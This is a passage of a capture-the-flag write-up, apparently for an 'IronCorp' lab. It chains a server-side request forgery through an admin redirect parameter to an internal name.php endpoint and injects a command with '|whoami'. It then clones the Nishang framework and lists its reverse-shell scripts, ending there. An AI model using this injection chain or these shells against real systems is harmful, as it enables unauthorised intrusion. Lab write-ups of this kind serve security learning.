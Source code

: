 <br>
<br>
<p align="center">Search = <code>internal.ironcorp.me:11025....</code></p>

<img width="1129" height="325" alt="image" src="https://github.com/user-attachments/assets/52facf0a-9ba8-4576-96fc-37caa817e1ca" />

<br>
<br>
<p align="center">internal.ironcorp.me:11025/name.php?name=</p>

<img width="678" height="231" alt="image" src="https://github.com/user-attachments/assets/141cfcae-1816-4f1c-83c7-ad01b8137582" />

<br>
<br>

<p align="center">admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025/name.php?name=hi</p>

<img width="1245" height="340" alt="image" src="https://github.com/user-attachments/assets/2a30456e-3b84-4a54-a88f-8717b2c96d9d" />

<br>
<br>
<p align="center">Search = <code>internal.ironcorp.me:11025....</code></p>

<img width="1220" height="278" alt="image" src="https://github.com/user-attachments/assets/076d2762-3b84-46c9-9c15-94dec7d8b43b" />

<br>
<br>

<p align="center">admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025/name.php?name=hi|whoami</p>

<img width="1214" height="248" alt="image" src="https://github.com/user-attachments/assets/9fe97888-e6ca-4e22-91ac-269ac63e1c86" />

<br>
<br>

```bash
:~/IronCorp# git clone https://github.com/samratashok/nishang.git
```

```bash
:~/IronCorp# cd nishang
```

```bash
~/IronCorp/nishang# ls
ActiveDirectory  Bypass         DISCLAIMER.txt  Gather   MITM          powerpreter  Scan
Antak-WebShell   CHANGELOG.txt  Escalation      LICENSE  nishang.psm1  Prasadhak    Shells
Backdoors        Client         Execution       Misc     Pivot         README.md    Utility
```

```bash
:~/IronCorp/nishang# cd Shells
```

```bash
:~/IronCorp/nishang/Shells# ls
Invoke-ConPtyShell.ps1  Invoke-PoshRatHttp.ps1     Invoke-PowerShellTcpOneLineBind.ps1  Invoke-PowerShellUdpOneLine.ps1  Invoke-PsGcatAgent.ps1
Invoke-JSRatRegsvr.ps1  Invoke-PoshRatHttps.ps1    Invoke-PowerShellTcpOneLine.ps1      Invoke-PowerShellUdp.ps1         Invoke-PsGcat.ps1
Invoke-JSRatRundll.ps1  Invoke-PowerShellIcmp.ps1  Invoke-PowerShellTcp.ps1             Invoke-PowerShellWmi.ps1         Remove-PoshRat.ps1
```
